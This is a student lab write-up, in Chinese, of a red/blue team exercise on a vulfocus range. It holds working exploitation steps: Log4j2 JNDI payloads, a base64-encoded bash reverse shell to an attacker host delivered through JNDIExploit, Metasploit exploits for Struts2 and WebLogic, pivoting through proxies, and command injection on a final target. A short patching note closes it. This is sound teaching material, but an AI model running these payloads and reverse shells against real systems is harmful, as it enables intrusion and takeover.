# 2023网络安全团队攻防实践

## 实验要求

- 红队：需完成漏洞存在性验证和漏洞利用。
- 蓝队威胁监测：漏洞利用的持续检测和威胁识别与报告。
- 蓝队威胁处置：漏洞利用的缓解和漏洞修复（源代码级别和二进制级别两种）

## 实验过程

#### 配置虚拟机

- 新建kali虚拟机，配置网卡如下：

    

- 配置好网卡后，ip地址显示如下：

    

    ip地址为`192.168.56.105`

#### ssh连接

- 设置开机自启动服务：

    

- 手动启动服务：

        systemctl start ssh

- 确认进程是否打开：

        ps aux | grep ssh

    

    将虚拟机设置为后台运行。

- 主机用ssh连接虚拟机：

    

    连接成功。

#### 搭建vulfocus环境

- 克隆[仓库](https://github.com/c4pr1c3/ctf-games)：

    

    克隆速度太慢，于是将🔗中加入`gitclone.com`，下载速度大大提高。

- apt更新：

    

- 安装docker的两个包：

    

    根据报错提示可知：docker包可能丢失，或已经过时；可以安装`wmdocker`包代替。

- 重新安装，成功：

    

- 添加当前用户到docker组：
    
        usermod -a -G docker kali

- 使用中科大 Docker Hub 镜像源：
        
        vim /etc/docker/daemon.json

    

- 重启docker的引擎服务：

        systemctl restart docker

- 提前拉取 vulfocus 镜像
    
        docker pull vulfocus/vulfocus:latest
    

- 启动`bash start.sh`：
    
      cd /home/kali/ctf-games/fofapro/vulfocus
      bash start.sh

  

  Local_IP使用HOST-ONLY网卡的地址-`192.168.56.105`

- 运行docker镜像：
  
      docker ps

  

- 宿主机上访问虚拟机地址，可访问vulfocus网站：
  
  

  用户名/密码为：admin/admin

- 点击【镜像管理】-【镜像管理】-【一键同步】
- 搜索感兴趣的漏洞镜像-【下载】
- 镜像下载完毕后，点击【首页】，就随时可以启动镜像开始漏洞攻防实验了

#### 漏洞一：Log4j2远程命令执行

##### 1、漏洞存在性验证

- 启动`Log4j2远程命令执行`镜像

    
    
    
    容器启动正确。

- 找到目标文件：
    
    并记录目标文件的路径。

- 将目标文件从容器内拷贝到虚拟机上：
  
    
    
    
    打开虚拟机查看，已经成功拷贝。

- 用在线Java反编译器编译目标文件：
    

##### 2、检验漏洞可利用性

###### 手动检测方式

- 登录 dnslog.cn，点击`Subdomain`，获得一个随机域名

- 向目标发送指定payload，目标对payload进行解析执行：
    
      curl -X POST http://192.168.56.105:12538/hello?payload=111 -d 'payload="${jndi:ldap://s7ly8z.dnslog.cn}"'
    
    遇到问题：`405——用户在Request-Line字段定义的方法不允许`，查阅资料后错误还是无法排除，于是[参考该笔记](https://blog.csdn.net/qq1140037586/article/details/128289050)，使用另外一种方法。

- 使用如下payload并进行url编码：
  
      ${jndi:ldap://s7ly8z.dnslog.cn}
      %24%7Bjndi%3Aldap%3A%2F%2Fs7ly8z.dnslog.cn%7D(url编码后)

- 在payload=后面加上刚刚转换后的url代码，然后访问目标地址：
  
  
  
- 访问之后查看DNSlog是否有回显：

  

  有回显，说明存在漏洞。

###### 自动化检测方式

- 拉取github连接：
      
      pip3 install -r requirements.txt -i https://pypi.tuna.tsinghua.edu.cn/simple

- 修改`log4j-scan.py`，添加payload检测参数：

      #手动编辑
      #post_data_parameters = ["username", "user", #"email", "email_address", "password"]
      #替换为以下内容
      #post_data_parameters = ["username", "user", "email", "email_address", "password", "payload"]
      #或者使用以下代码无脑替换：
      #sed -i.bak 's/password"/password", "payload"/' log4j-scan.py
    

- 检测是否有漏洞：
  
      python3 log4j-scan.py -u http://192.168.56.105:12538/hello --run-all-tests
    


##### 3、漏洞利用的持续检测和威胁识别与报告。

攻击者主机ip：`192.168.56.107`；受害者主机ip：`192.168.56.105`

- 先在攻击者主机上准备好一个反弹的监听地址：
      
      nc -l -p 7777
    回车后等待受害者主机操作。

- 受害者主机使用bash指令连接反弹窗口：
    

- 此时，攻击者主机上已经窥探到了受害者靶机的操作：
    

- 输入`ls /tmp`：
    
    所有的靶机都在`tmp`目录下存放靶标文件，成功找到flag。
    

- 攻击者主机上下载`JNDIExploit`工具：

      wget https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip
    
    使用老师视频中的指令发现报错，无法建立SSL连接，无法下载
    

    于是，根据[JNDIExploit使用说明](https://github.com/Mr-xn/JNDIExploit-1)，从[下载地址](https://github.com/Mr-xn/JNDIExploit-1/releases/tag/v1.2)中下载工具到攻击者主机。

- 解压下载文件并计算校验和：
    
    校验和与老师视频中一致。

- 攻击者主机开启监听：
    
    

- 受害者主机投放代码：
  
      curl http://192.168.56.105:12538/hello -d 'payload=${jndi:ldap://192.168.56.107:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.56.107/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}'

    

    从报错信息中可知：服务器拒绝POST请求。
    
    尝试发送GET请求：

    

    发现服务器允许GET请求。

    尝试发送PUT请求：

    

    服务器拒绝PUT请求。

###### 这里根据[本地搭建vulfocus靶场&复现log4j2漏洞](https://blog.csdn.net/xhscxj/article/details/126753384)，尝试另一种方法

```
原理：
通过工具生成jdni服务网址，当受害机通过jdni的ldap协议去访问这些网址时，没有找到ldap对应的资源时就会通过http协议去访问，然后将资源返回给log4j，log4j发现资源是一个.class文件就会把他下载下来，并执行。
```

- 攻击者主机上搭建JNDI服务：
    - base64加密`bash -i >& /dev/tcp/192.168.56.107/7777 0>&1`命令：
       
          YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwNy83Nzc3IDA+JjE=
    
    - 命令变为：

          bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwNy83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}

    - 反弹shell命令：
  
          java -jar JNDIExploit-1.2-SNAPSHOT.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwNy83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}" -A "192.168.56.107"

    
#### 跨网段渗透场景攻防

##### 搭建场景

- 搭建跨网段渗透场景
    -  创建网卡：
    
    - 搭建拓扑：
    
    将画线容器设置为整个场景的入口。

- 启动场景，查看镜像：
  
  注意CVE-2020-17530 Struts2的靶场端口是`52415`

- `CVE-2020-17530 Struts2`的靶场环境已建立成功：
  

- 入口靶标一个可能的威胁暴露面：
  

- 开启tmux会话：
  
      $ sudo apt-intall tmux
      $ tmux

###### 捕获指定容器的上下行流量

- 用tcpdump捕获入口容器的上下行流量：
      
      container_name="<替换为目标容器名称或ID>"
      docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
    
    
- ctrl-b d，将tmux会话放到后台

###### 攻破靶标1

- 切换到攻击者主机，进行 metasploit 基础配置：
  - 更新 metasploit：
  
        sudo apt install -y metasploit-framework

  - 初始化 metasploit 本地工作数据库：
        
        sudo msfdb init

  - 启动 msfconsole：
    
        msfconsole
    

  - 确认已连接 pgsql：

        db_status

  - 建立工作区：

        workspace -a demo

- 信息收集之服务识别与版本发现
  - 搜索漏洞利用程序：
    
        search struts2 type:exploit

  - 查看exp详情：
  
        info 2

  - 使用上述exp：
  
        use 2
    

  - 查看 exp 可配置参数列表：

        show options

  - 查看可用 exp payloads：

        show payloads

  - 使用合适的 exp payload：
  
        set payload payload/cmd/unix/reverse_bash
    

- 配置exp参数：
  
        # 靶机 IP
        set RHOSTS 192.168.56.105
        # 靶机目标端口
        set rport  52415         
        # 攻击者主机 IP
        set LHOST  192.168.56.107 
    

- 开始攻击：

        exploit -j
        sessions -l
        # 进入会话 1
        sessions -i 1
        # 无命令行交互提示信息，试一试 Bash 指令
        id
        # get flag-1
        ls /tmp
    

- ctrl-Z将当前会话放在后台

###### 建立立足点并发现靶标2-4

- 更新meterpreter shell：

      sessions -u 1
    

- 输入以下指令，进入新会话：
  
        search meterpreter type:post
        use post/multi/manage/shell_to_meterpreter
        show options
        set lhost 192.168.56.214
        set session 1
        run -j
        sessions -l
        sessions -i 2
    

- 创建路由：

        # 查看网卡列表
        ipconfig
        # 查看路由表
        route
        # 查看 ARP 表
        arp
        # 创建代理
        run autoroute -s 192.170.84.0/24
        # 检查 Pivot 路由是否已创建成功
        run autoroute -p
    

- ctrl-Z退出会话。

- 查看受害者主机，发现上述过程都已被抓包器记录：
  
        tmux attach -t 0
    

- 建立portscan
    - 输入以下指令：
        
            search portscan
            use auxiliary/scanner/portscan/tcp
            show options
            # 根据子网掩码推导
            set RHOSTS 192.170.84.2-254
            # 根据「经验」
            set ports 7001
            # 根据「经验」
            set threads 10
            # 开始扫描
            run -j
        
        
        
    - 查看主机存活情况：
  
            hosts
        

    - 查看发现的服务列表：

            services
        

- 建立socks_proxy 

        search socks_proxy
        use auxiliary/server/socks_proxy
        run -j
        # 查看后台任务
        jobs -l
    

- 打开一个新的命令行窗口，检查 1080 端口服务开放情况
        
        sudo lsof -i tcp:1080 -l -n -P
    

- 编辑`/etc/proxychains4.conf`

        sudo sed -i.bak -r "s/socks4\s+127.0.0.1\s+9050/socks5 127.0.0.1 1080/g" /etc/proxychains4.conf

        proxychains sudo nmap -vv -n -p 7001 -Pn -sT 192.170.84.2-5
    

- 回到 metasploit 会话窗口，重新进入 shell 会话
  
        sessions -i 1
        curl http://192.170.84.2:7001 -vv
        curl http://192.170.84.3:7001 -vv
        curl http://192.170.84.4:7001 -vv
    

###### 攻破靶标2-4

    # search exploit
    search cve-2019-2725

    # getshell
    use 0
    show options
    set RHOSTS 192.170.84.2/4/5
    # 分别设置不同的靶机 IP 
    set lhost 192.168.56.107
    # 分别 run
    run -j


    # get flag2-4
    sessions -c "ls /tmp" -i 3/4/5
    发现终点靶标


    # 通过网卡、路由、ARP 发现新子网 192.169.85.0/24
    sessions -c "ifconfig" -i 3,4,5


- 升级发现新子网的会话8：
    
        sessions -u 8
    

- 出现了新的会话9，进入会话9：
  
        sessions -i 9

- 将新发现的子网加入 Pivot Route

        run autoroute -s 192.169.85.0/24
        run autoroute -p
    

- CTRL-Z 将当前会话放到后台继续执行

###### 攻破终点靶标

- 使用scanner/portscan/tcp
  
        use scanner/portscan/tcp
        set RHOSTS 192.169.85.2-254
        set ports 80
        run -j
    

- 拿到终点靶标上的 Flag
    
        # 利用跳板机 192.170.84.3 的 shell 会话「踩点」最终靶标
        sessions -c "curl http://192.169.85.2" -i 8
        # 发现没安装 curl ，试试 wget
        sessions -c "wget http://192.169.85.2" -i 8
        # 发现没有命令执行回显，试试组合命令
        sessions -c "wget 'http://192.169.85.2' -O /tmp/result && cat /tmp/result" -i 8
        # 发现 get flag 提示
        sessions -c "wget 'http://192.169.85.2/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result" -i 8

#### Struts 2-CVE-2020-17530漏洞修复

###### 原理
```
CVE-2020-17530: 代码执行漏洞
Apache Struts 2是一个用于开发Java EE网络应用程序的开源网页应用程序架构。它利用并延伸了Java Servlet API，鼓励开发者采用MVC架构。

如果开发人员使用了 %{…} 语法，那么攻击者可以通过构造恶意的 OGNL 表达式，引发 OGNL 表达式二次解析，最终造成远程代码执行的影响。
```

###### 影响版本

apache:struts2 : 2.0.0 - 2.5.25

###### 临时修补建议
升级到 Struts 2.5.26 版本，下载地址为：[Version Notes 2.5.26](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.26)


# 参考资料

[接口测试常见响应码类型](https://www.cnblogs.com/xiaozhaoboke/p/11185020.html)

[curl命令详解](https://blog.csdn.net/m0_51504545/article/details/123278429)